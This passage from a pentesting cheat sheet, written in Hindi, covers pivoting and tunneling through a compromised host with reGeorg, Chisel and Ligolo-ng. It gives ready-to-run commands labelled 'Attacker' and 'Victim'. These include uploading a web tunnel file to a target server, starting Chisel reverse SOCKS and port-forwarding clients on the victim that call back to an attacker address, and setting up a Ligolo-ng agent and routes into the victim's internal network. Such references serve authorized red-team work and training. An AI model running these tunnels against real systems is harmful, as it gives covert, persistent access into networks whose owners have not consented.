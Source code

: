 [https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

आपको एक वेब फ़ाइल टनल अपलोड करने की आवश्यकता है: ashx|aspx|js|jsp|php|php|jsp
```bash
python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp
```
## Chisel

आप इसे [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel) के रिलीज़ पृष्ठ से डाउनलोड कर सकते हैं।\
आपको **क्लाइंट और सर्वर के लिए समान संस्करण का उपयोग करना होगा।**

### socks
```bash
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```
### पोर्ट फॉरवर्डिंग
```bash
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```
## Ligolo-ng

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

**एजेंट और प्रॉक्सी के लिए एक ही संस्करण का उपयोग करें**

### टनलिंग
```bash
# Start proxy server and automatically generate self-signed TLS certificates -- Attacker
sudo ./proxy -selfcert
# Create an interface named "ligolo" -- Attacker
interface_create --name "ligolo"
# Print the currently used certificate fingerprint -- Attacker
certificate_fingerprint
# Start the agent with certification validation -- Victim
./agent -connect <ip_proxy>:11601 -v -accept-fingerprint <fingerprint>
# Select the agent -- Attacker
session
1
# Start the tunnel on the proxy server -- Attacker
tunnel_start --tun "ligolo"
# Display the agent's network configuration -- Attacker
ifconfig
# Create a route to the agent's specified network -- Attacker
interface_add_route --name "ligolo" --route <network_address_agent>/<netmask_agent>
# Display the tun interfaces -- Attacker
interface_list
```
### एजेंट बाइंडिंग और सुनना
```bash
# Establish a tunnel from the proxy server to the agent
# Create a TCP listening socket on the agent (0.0.0.0) on port 30000 and forward incoming TCP connections to the proxy (127.0.0.1) on port 10000 -- Attacker
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
# Display the currently running listeners on the agent -- Attacker
listener_list
```